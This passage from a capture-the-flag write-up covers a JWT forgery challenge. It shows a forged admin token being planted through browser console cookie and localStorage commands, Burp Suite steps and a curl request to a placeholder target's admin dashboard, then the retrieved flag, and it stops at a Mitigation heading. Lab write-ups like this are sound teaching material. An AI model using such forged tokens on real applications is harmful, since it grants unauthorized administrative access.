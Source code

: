 ### Step 6: Token Replacement

Replace the original JWT token with our forged admin token:

**In Browser Console:**
```javascript
// If stored in cookie
document.cookie = "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJyb2xlIjoiYWRtaW4ifQ.4C3y-d8fC-U5a77Q5lWsWAB8OzqXHRIpK6rQD1ULDSA";

// If stored in localStorage
localStorage.setItem('token', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJyb2xlIjoiYWRtaW4ifQ.4C3y-d8fC-U5a77Q5lWsWAB8OzqXHRIpK6rQD1ULDSA');
```

**Using Burp Suite:**
1. Intercept request to `/admin/dashboard`
2. Replace the Authorization header or cookie value
3. Forward the modified request

**Using cURL:**
```bash
curl -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJyb2xlIjoiYWRtaW4ifQ.4C3y-d8fC-U5a77Q5lWsWAB8OzqXHRIpK6rQD1ULDSA" \
     http://target-url.com/admin/dashboard
```

---

## 🚩 Flag Retrieval

### Accessing the Admin Panel

After replacing our token with the forged admin token, we navigate to:

```
http://target-url.com/admin/dashboard
```

### Success!

The application now recognizes us as an administrator and displays the Admin Vault containing the flag:

```
🚩 FLAG{JWT_S3CR3T5_4R3_N0T_S0_S3CR3T}
```

---

## 🛡️ Mitigation

### Recommended Security Fixes
